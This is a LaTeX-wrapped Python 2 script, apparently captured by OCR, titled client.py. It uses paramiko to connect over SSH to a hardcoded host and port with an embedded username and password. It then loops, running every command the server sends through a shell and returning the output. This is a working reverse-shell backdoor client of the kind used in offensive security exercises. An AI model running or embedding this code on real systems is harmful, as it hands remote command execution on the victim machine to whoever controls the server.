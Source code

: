 \documentclass[UTF8,nofonts,a4paper]{ctexart}
\begin{document}
\subsection*{client.py}
\begin{python}
import paramiko
import threading
import subprocess

def ssh_command(ip, user, passwd, command):
	client = paramiko.SSHClient()
	# client.load_host_keys('./known_hosts')
	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
	client.connect(ip, username=user,port=8000, password=passwd)
	ssh_session = client.get_transport().open_session()

	if ssh_session.active:
		ssh_session.send(command)
		print ssh_session.recv(1024)
	while 1:
		command = ssh_session.recv(1024)
		try:
			cmd_output = subprocess.check_output(command, shell=True)
			ssh_session.send(cmd_output)
		except Exception, e:
			ssh_session.send(str(e))
	client.close()
	return
ssh_command('127.0.0.1', 'administrator', 'heng130509', 'ClinetConnected')
\end{python}
\end{document}
